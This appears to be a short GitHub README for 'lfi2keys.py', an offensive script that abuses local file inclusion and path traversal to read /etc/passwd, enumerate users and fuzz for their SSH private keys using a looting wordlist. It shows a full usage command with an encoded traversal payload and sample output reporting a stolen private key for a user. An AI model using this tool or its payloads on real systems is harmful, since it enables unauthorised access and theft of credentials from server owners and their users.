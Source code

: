 # Usage
Provide the full path of the affected URL with the LFI/ path traversal vulnerability and an private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)

```bash
┌──(kali㉿DC07 | 2025-02-12 19:13:43)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l /usr/share/wordlists/ssh-key-looting/ssh-priv-key-loot-medium.txt   

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /| ' <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/
                                      
LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Active users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] Checking for authorized_keys ...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
    [*] SSH key-based authentication is enabled for user nick.
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Done (～￣▽￣)～
```

# Credits
- PinoyWH1Z for his [wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists)